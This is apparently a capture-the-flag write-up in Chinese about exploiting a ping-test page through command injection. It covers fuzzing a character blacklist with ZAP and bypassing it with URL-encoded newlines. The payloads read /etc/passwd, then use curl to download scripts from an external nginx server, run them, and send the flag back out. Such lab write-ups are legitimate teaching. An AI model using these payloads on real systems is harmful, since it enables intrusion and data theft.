






# CTF: remote command execution

## Description

路由器管理台经常存在的网络 ping 测试，开发者常常会禁用大量的恶意字符串，试试看如何绕过呢？

## Solution

進入網站嘗試使用

- 輸入 `127.0.0.1` 得到 IP 存在且成功
- 輸入 `127.0.0.2` 得到 IP 失敗
- 輸入 `127.1 && cat /flag` 得到含非法字元




可以推測這是一個 RCE 的漏洞，但是存在一些黑名單防禦。

可以猜測底層的命令是 `ping <input IP>` 因此理論上只要繞過黑名單添加類似 `&&` 的符號就可以執行任意命令。

要破解黑名單最簡單的方法是 fuzzing，使用 ZAP 配合網路抓來的 RCE payload ([file](./fuzz-payload.txt)) 來 fuzz 黑名單。

ref: https://github.com/payloadbox/command-injection-payload-list

這裡要注意，fuzz 一定要使用滲透工具，例如 ZAP 或 Burp Suite，因為這些工具才不會自動處理特殊字元，一般工具例如 postman 會自動處理特殊字元，導致 fuzz 無效。

開啟 `http://localhost:8080/zap` 先 auto scan 目標網站 `http://converter` 抓出目標路由

接著按照以下順序操作執行 fuzzing：

1. 找到目標 post 命令，選擇 requester 複製對應 raw request
   ```
   POST http://converter/ping.php HTTP/1.1
   host: converter
   user-agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
   Accept: */*
   Accept-Language: en-US,en;q=0.5
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   X-Requested-With: XMLHttpRequest
   Content-Length: 18
   Origin: http://converter
   Connection: keep-alive
   Referer: http://converter/
   Priority: u=0
   ```
   ```
   ip=HObQahzKClCIJvV
   ```
2. 創建新的 requester 基於上面的資料，並且把 body 改為 `ip=127.1<FUZZ>`，因為我們希望嘗試一般會成功的命令，加了甚麼符號還是會成功
3. 圈選想要 fuzz 的字串 `<FUZZ>` 後右鍵選 fuzz
   
   
4. 選擇 payloads 按下 Add，添加 strings payloads，裡面貼上 `fuzz-payload.txt` 的內容，這是網路上下載的字典。
5. 按下開始後檢查結果，看看有沒有添加特殊字元卻執行成功的結果
   

從上面步驟得到了三個成功的結果，我們列出來觀察

- `ip=127.1cat /etc/hosts`
- `ip=127.1cat /etc/passwd`
- `ip=127.1%0Acat%20/etc/passwd`

最關鍵的是知道了兩個符號沒有被擋分別是 `%0A` 和 `/`

- `%0A` 是換行符號，可以讓 shell 命令在多行執行
- `/` 是路徑分隔符號，可以填入任意 URI

至此，最簡單的做法出爐，就是利用 `%0A` 來換行，把 Flag 存到 nginx 網頁發布的靜態資源目錄。

輸入 `ip=127.1%0Acat%20/FLAG%20>%20flag` 後前往 `http://localhost/flag` 即可看到 Flag。 (另外此時可以透過時間注入確保 `cat xxx` 是否成功。)

但實務上，上面方法不可行，有以下兩個原因

- 因為出題者做了權限控制，禁止操作網頁服務的目錄。
- 因為出題者故意取名叫大寫 FLAG，所以我們在看不到目錄時，很難猜到該路徑。

接下來的想法是，創建一個外部伺服器建立 http 橋梁，在遠端透過 http 橋梁下載惡意腳本，再把 flag 用 http 橋梁送到外部伺服器。

docker-compose 加入以下設置以模擬

```
  nginx:
    image: nginx:latest
    container_name: static-server
    volumes:
      - ./ctf:/usr/share/nginx/html
    ports:
      - 9090:80
    networks:
      - my-bridge-network
```

撰寫兩個惡意腳本

- find.sh : 查找目標資料夾下檔案名稱，用來定位 flag 的路徑
- get.sh : 抓取 flag 後送出去到外部伺服器

使用以下命令(RCE)可以下載 find.sh 後存到 `/tmp` 目錄下，這個目錄要用亂試的試出來，因為不知道哪裡有被開檔案讀寫權限

`ip=127.1%0Acurl%20nginx/find.sh%20>%20/tmp/find.sh`

接著透過 `sh` 執行腳本，可以在外部伺服器的 log 中看到目標資訊

`ip=127.1%0Ash%20/tmp/find.sh`



找到目標路徑 `/FLAG`，接著下載與執行 get.sh 脚本。

- `ip=127.1%0Acurl%20nginx/get.sh%20>%20/tmp/get.sh`
- `ip=127.1%0Ash%20/tmp/get.sh`



成功在外部伺服器上的 log 讀取到 FLAG。
